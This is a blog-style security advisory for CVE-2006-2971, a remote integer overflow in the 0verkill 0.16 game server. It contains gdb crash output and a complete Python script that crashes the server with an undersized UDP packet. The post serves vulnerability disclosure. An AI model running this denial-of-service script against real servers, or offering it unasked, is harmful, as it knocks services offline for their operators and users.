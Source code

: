 ```yaml
---
layout: post
title:  "CVE-2006-2971 – 0verkill Remote Integer Overflow Crash Exploit"
date:   2006-06-09 00:00:00
categories: security cve
permalink: post/CVE-2006-2971-0verkill-remote-integer-overflow/
---
```


### Vendor

[http://artax.karlin.mff.cuni.cz/~brain/0verkill/][0verkill]

[0verkill]:	http://artax.karlin.mff.cuni.cz/~brain/0verkill/	"0verkill"

> 0verkill is bloody 2D action deathmatch-like game in ASCII-ART running under Linux, OS/2 and Windows.

### Description

Integer overflow in the recv_packet function in `0verkill 0.16` allows remote attackers to cause a denial of service (daemon crash) via a UDP packet with fewer than 12 bytes, which results in a long length value to the crc32 function.

### Debug with gdb

{% highlight bash %}
(gdb) run
Starting program: /home/federico/0verkill-0.16/server
9. 6.2006 14:18:07  Running 0verkill server version 0.16
9. 6.2006 14:18:07  Initialization.
9. 6.2006 14:18:07  Loading sprites.
9. 6.2006 14:18:07  Loading level "level1"....
9. 6.2006 14:18:07  Loading level graphics.
9. 6.2006 14:18:08  Loading level map.
9. 6.2006 14:18:08  Loading level objects.
9. 6.2006 14:18:08  Initializing socket.
9. 6.2006 14:18:08  Installing signal handlers.
9. 6.2006 14:18:08  Game started.
9. 6.2006 14:18:08  Sleep
9. 6.2006 14:18:10  Wakeup

(run python f_0k-0.6.py localhost 65525)

Program received signal SIGSEGV, Segmentation fault.
crc32 (buf=0x837a000 <Address 0x837a000 out of bounds>, len=4294967288) at crc32.c:82
warning: Source file is more recent than executable.
82            DO8(buf);
#
#0  0x0805b54a in recv_packet (packet=0x805fd20 "",
max_len=256, addr=0xf18df475, addr_len=0xf18df475, sender_server=0, recipient=0,
sender=0xbfcf6d54) at net.c:94
94              if (crc!=crc32(packet,retval-12))return -1;
#

# limits byte receive is 12, if you send an inferior number of it the game crash.
{% endhighlight %}

### Denial of service code snippet

{% highlight python %}
#!/usr/bin/env python

import os, sys
from socket import *

usage = "run: python %s [remote_addr] [remote_port] " % os.path.basename(sys.argv[0])

if len(sys.argv) < 3:
    print usage
    sys.exit()

host = sys.argv[1]
port = int(sys.argv[2])

sock = socket(AF_INET, SOCK_DGRAM)
sock.connect((host, port))

print "connecting.. ",
if sock > 0:
    print "done!"
else:
    print "wrong!"

print "crashing the server.. ",
if sock.sendto('0x00' , (host, port)):
    print "done!"
else:
    print "wrong!"

print "wait five seconds, if no data found press CTRL+C"
try:
    reply = sock.recvfrom(512)
    print reply
except:
    print "no data receive!"
    sys.exit()
{% endhighlight %}

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971][mitre]
* [http://www.securityfocus.com/bid/18353][securityfocus]
* [http://www.osvdb.org/26029][osvdb]
* [http://secunia.com/advisories/20551][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971 "CVE-2006-2971"
[securityfocus]:	http://www.securityfocus.com/bid/18353						"SecurityFocus-18353"
[osvdb]:			http://www.osvdb.org/26029									"OSVDB-26029"
[secunia]:			http://secunia.com/advisories/20551							"Secunia-20551"